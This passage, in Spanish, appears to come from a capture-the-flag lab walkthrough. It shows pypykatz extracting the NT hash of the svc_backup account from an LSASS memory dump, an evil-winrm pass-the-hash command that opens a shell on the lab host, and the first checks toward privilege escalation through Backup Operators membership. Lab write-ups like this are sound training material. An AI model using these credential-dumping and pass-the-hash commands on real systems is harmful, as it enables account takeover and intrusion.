 Utilizando **pypykatz** podremos leer el archivo **lsass.DMP** y veremos que nos regresa el **NT hash** de **svc_backup** que usaremos para obtener shell con **evil-winrm**.

- `unzip lsass.zip`
- `pypykatz lsa minidump lsass.DMP`

![10](img/10.png)

`evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -s tools/`

![11](img/11.png)

## Escalada de Privilegios

Podemos ver que el usuario **svc_backup** pertenece a un grupo particular **Backup Operators**.

- `net user svc_backup`
- `whoami /priv | findstr Backup`

![12](img/12.png)
